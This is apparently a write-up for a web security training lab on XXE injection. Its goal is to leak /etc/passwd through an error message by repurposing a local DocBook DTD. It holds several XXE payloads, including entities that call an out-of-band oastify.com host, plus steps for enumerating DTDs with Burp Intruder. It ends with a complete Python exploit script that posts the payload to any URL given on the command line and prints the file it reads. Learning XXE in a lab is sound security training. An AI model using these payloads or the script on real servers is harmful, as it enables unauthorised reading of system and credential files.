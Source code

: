 Target Goal - Exploit the XXE injection to trigger an error message containing the contents of the /etc/passwd file.

Analysis:

Regular entity:
--------------

<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>

Blind Regular entity:
---------------------

<!DOCTYPE test [<!ENTITY xxe SYSTEM "http://k9udhvjgzvaf2v2dlzdf10um5db3zs.oastify.com">]>

Parameter entity:
----------------

<!DOCTYPE test [<!ENTITY % xxe SYSTEM "http://k9udhvjgzvaf2v2dlzdf10um5db3zs.oastify.com"> %xxe;]>

Repurposing a Local DTD
-----------------------

<!DOCTYPE test [<!ENTITY % xxe SYSTEM "file:///etc/doesnotexit"> %xxe;]>

Enumerate the existing DTD's
go to github GoSecure/dtd-finder -> list -> (click on raw) copy the content
use burp intruder to fuzz the parameter: select "^file://==/etc/doesntexist==
unchecked URL-encode these characters: ...
Start attack

Google search for usr/share/yelp/dtd/docbook xxe injection
copy the payload 

<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">

    <!ENTITY % ISOamsa '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>

```python
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_xxe(s, url):

    print("(+) Exploiting XXE Injection...")
    stock_url = url + "/product/stock"
    data_stock = '''<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"><!ENTITY % ISOamsa '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
    '>%local_dtd;]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>'''

    r = s.post(stock_url, data=data_stock, verify=False, proxies=proxies)
    print("(+) The following is the content of the /etc/passwd file: ")
    print(r.text)

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    s = requests.Session()
    url = sys.argv[1]
    exploit_xxe(s, url)

if __name__ == "__main__":
    main()
```